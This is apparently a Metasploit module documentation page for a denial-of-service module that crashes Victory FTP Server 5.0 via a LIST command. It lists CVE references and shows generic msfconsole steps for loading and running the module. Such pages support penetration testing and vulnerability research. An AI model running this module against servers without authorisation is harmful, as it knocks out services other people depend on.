 ## Victory FTP Server 5.0 LIST DoS

The Victory FTP Server v5.0 can be brought down by sending a 
very simple LIST command


## Module Name
auxiliary/dos/windows/ftp/vicftps50_list

## Authors
kris katterjohn


## References
* http://cvedetails.com/cve/2008-2031/
* http://cvedetails.com/cve/2008-6829/
* http://www.osvdb.org/44608
* https://www.exploit-db.com/exploits/6834




## Platforms


## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use auxiliary/dos/windows/ftp/vicftps50_list
msf auxiliary(vicftps50_list) > show targets
   ... a list of targets ...
msf auxiliary(vicftps50_list) > set TARGET <target-id>
msf auxiliary(vicftps50_list) > show options
   ... show and set options ...
msf auxiliary(vicftps50_list) > run
```
    
    